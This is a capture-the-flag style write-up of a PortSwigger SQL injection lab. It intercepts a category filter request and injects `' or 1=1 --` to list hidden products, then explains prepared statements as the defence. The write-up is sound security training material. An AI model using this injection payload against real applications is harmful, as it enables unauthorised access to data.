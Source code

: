 
<p align="center">
  <img src="./screenshots/sql_logo.png" alt="sql_logo"/>
</p>

---

- 🎯 **Target:** PortSwigger SQL injection Lab - vulnerability in WHERE clause allowing retrieval of hidden data
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 10.05.2025
- 📊 **Difficulty:** APPRENTICE
- 📁 **Category:** Web - SQL injection (Boolean-Based)

---

## 🔍 Intercepting request 

> I intercept the request in the product category filter in BurpSuite:

```http

GET /filter?category=Pets HTTP/2
Host: 0ad20070035e51de80f5531f000400cf.web-security-academy.net
Cookie: session=JwFMOw2KWBHSBohtlqtnlcSF1rm0vHQa
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ad20070035e51de80f5531f000400cf.web-security-academy.net/filter?category=Corporate+gifts
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> Need to force the application to display additional hidden products on the page.

> Testing SQL injection in the `category` parameter using a logical expression (Boolean-Based SQL injection):

```http

GET /filter?category=' or 1=1 -- HTTP/2

```

> **Result: display unreleased products**
![unreleased_product](./screenshots/unreleased_product.png)

> It's work.

> **Note** this works because `OR 1=1` always returns `true`; `--` symbol is used as a comment in SQL syntax. Anything after it is ignored.
> So it turns out that the logical expression with `or` in this case with `WHERE category = '' or 1=1` results in all rows from the `products` table being selected without filtering
> by category.

> **Result: solved lab**
![solved_lab](./screenshots/solved_lab.png)

## 🧠 conclusion

> To protect against Boolean-Based SQL injection, you can use prepared statements. That is, instead of substituting data directly into the SQL string `"SELECT * FROM products WHERE category = '" + user_input + "'"`
> use `cursor.execute("SELECT * FROM products WHERE category = ?", (user_input,))`. This way, user input is not interpreted as part of the SQL query.

> You also need to escape the quote characters - `' '` and `" "` (but it is better to use parameterization).

